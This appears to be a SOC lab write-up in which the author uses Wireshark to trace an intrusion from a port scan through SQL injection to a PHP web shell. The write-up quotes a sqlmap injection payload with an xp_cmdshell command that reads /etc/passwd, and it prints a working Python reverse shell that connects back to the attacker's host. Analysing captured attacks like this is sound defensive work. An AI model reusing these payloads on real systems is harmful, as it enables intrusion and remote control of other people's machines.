








# Network Analysis - Web Shell

## Scenario:

The SOC received an alert in their SIEM for 'Local to Local Port Scanning' where an internal private IP began scanning another internal system. I was provided with a `.pcap` file and I investigated if this activity is malicious or not, using **Wireshark** in a Kali virtual machine.

## Analysis:

I opened the `.pcap` file in **Wireshark** and searched for packets related to the port scanning activity, which are typically `TCP` packets.  
I began by looking for `SYN` packets, which are commonly used in port scanning. I applied the filter `tcp.flags.syn == 1` and found numerous `SYN` packets originating from the source IP address `10.251.96.4`.



Next, I examined the port range scanned by the suspicious host. To do this, I sorted the packets by the `Destination port` column and identified a clear range from `1` to `1024`.



Since most of the packets are `SYN`, it indicates that the attacker was performing a `SYN scan`—a stealthy type of scan that sends `SYN` packets to open ports without completing the `TCP handshake`. This prevents the connection from being fully established and helps avoid detection.

To determine which tools were used to perform reconnaissance against open ports, I began searching for identifiable signatures. First, I applied the filter `ip.dst == 10.251.96.5 && http.user_agent` to display all packets with a user-agent string targeting the destination IP.

I observed many `GET` requests to different paths on the same domain, such as `admin`. Upon inspecting several of these requests, I found the user-agent string identifying `gobuster 3.0.1` in the **User-Agent** header.



To identify the second tool, I examined additional `Gobuster` packets, this time involving `POST` requests. I noticed a URL containing embedded SQL commands—a clear indication of a possible **SQL injection**:

```
POST /?QLuT=8454%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23
```

A quick search revealed that this is a typical **UNION SELECT** SQL injection payload designed to extract data from the database. The attacker was attempting to retrieve table names from the `information_schema.tables` table, which contains metadata about all tables in the database.

After analyzing the user-agent string, I identified another tool used in the attack: `sqlmap 1.4.7`.



The next question was identifying the name of the PHP file through which the attacker uploaded a web shell. To investigate this, I examined the `HTTP POST` requests using the filter `http.request.method == "POST"`. Since file uploads typically occur via `POST`, it was likely the shell was uploaded this way.

I searched through the `POST` requests and, in the **Referer** header of packet `16102`, I found the URL `http://10.251.96.5/editprofile.php`. Based on this, I concluded that the attacker interacted with the `editprofile.php` page on the server.



To identify the name of the web shell uploaded by the attacker, I followed the TCP stream of packet `16102`—which corresponds to `tcp.stream eq 1270`. This revealed the packet details and the plaintext value of the `fileToUpload` field, which was `dbfunctions.php`.



Next, to find the parameter used in the web shell for executing commands, I looked for interactions with `dbfunctions.php`:

```
http.request.uri contains "dbfunctions.php"
```

This filter checks for `GET` or `POST` requests that target the `dbfunctions.php` file. These requests often contain a parameter that the attacker uses to pass commands for execution.

In the results, I found a `cmd` parameter that contained **operating system commands** such as `id` and `whoami`.

By ordering the packets by number, I determined that the first command executed was `id`.



The next command being executed is clearly a Python script:



After cleaning and indenting the script, the result is:

```py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.251.96.4", 4422))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

This is a `reverse` shell that connects to `10.251.96.4`, providing access to `/bin/sh` through port `4422`.

## Conclusion:

The `.pcap` analysis indicates that the IP address `10.251.96.4` was used to conduct an attack on another system within the same network, `10.251.93.5`.

The attack began with a stealthy `SYN` scan over the port range `1–1024`, followed by reconnaissance using `Gobuster` to enumerate directories and `sqlmap` to exploit a vulnerable web application via SQL injection.

The attacker exploited the `editprofile.php` endpoint to upload a malicious PHP web shell named `dbfunctions.php`. Once uploaded, the shell was accessed using a `cmd` parameter to execute OS-level commands remotely. Among these commands, a reverse shell was initiated using Python, establishing a connection to the attacker's machine at `10.251.96.4:4422`.

This incident demonstrates a complete attack chain—from reconnaissance and exploitation to post-exploitation and remote access—and confirms that the activity was indeed **malicious**.
